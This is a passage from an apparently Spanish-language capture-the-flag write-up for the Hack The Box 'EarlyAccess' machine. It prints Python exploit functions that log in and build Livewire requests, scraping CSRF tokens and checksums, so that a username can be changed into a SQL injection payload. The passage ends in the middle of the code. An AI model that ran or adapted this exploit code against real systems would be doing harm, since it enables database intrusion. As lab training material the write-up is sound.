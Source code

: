 Luego, tras la creación del usuario, con la función **Login** obtiene la sesión del usuario.

```python
def Login():
	url_login = "https://earlyaccess.htb/login"

	data_post = {
		'_token': token,
		'email': email,
		'password': password
	}

	r = s.post(url_login, data=data_post, verify=False)
```



Para luego utilizar la función **Update_name** con la cual realiza la modificación del nombre de usuario para el SQLi, además los datos se envían en formato **JSON** por lo que se utilizó la librería **json** para convertir los datos a **JSON**, pero para realzar el cambio de nombre se tuvo que primero obtener datos necesarios para la modificación, como por ejemplo los valores **token**, **htmlHash**, **checksum** etc, ya que por cada petición los valores iban cambiando.
```python
def Update_name(old_name,new_name):
	url_update = "https://earlyaccess.htb/livewire/message/profile.update-profile-information-form"

	url_profile = "https://earlyaccess.htb/user/profile"

	r = s.get(url_profile, verify=False)

	token = re.findall('name="_token" value="(.*?)"',r.text)[0]

	id = re.findall('id&quot;:&quot;(.*?)&quot;', r.text)[1]

	data_id = int(re.findall('state&quot;:{&quot;id&quot;:(.*?),&quot;',r.text)[0])

	htmlHash = re.findall('htmlHash&quot;:&quot;(.*?)&quot;', r.text)[1]

	checksum = re.findall('checksum&quot;:&quot;(.*?)&quot;', r.text)[1]

	created_at = re.findall('created_at&quot;:&quot;(.*?)&quot;', r.text)[0]

	updated_at = re.findall('updated_at&quot;:&quot;(.*?)&quot;', r.text)[0]

	headers = {"Content-Type":"application/json","X-Csrf-Token":token}

	data_post = {
	    "fingerprint":{
	        "id":id,
	        "name":"profile.update-profile-information-form",
	        "locale":"en",
	        "path":"user/profile",
	        "method":"GET"
	    },
	    "serverMemo":{
	        "children":[],
	        "errors":[],
	        "htmlHash":htmlHash,
	        "data":{
	            "state":{
	                "id":data_id,
	                "name":old_name,
	                "email":"pr1ngl3s@pr1ngl3s.com",
	                "role":"user",
	                "key":None,
	                "created_at":created_at,
```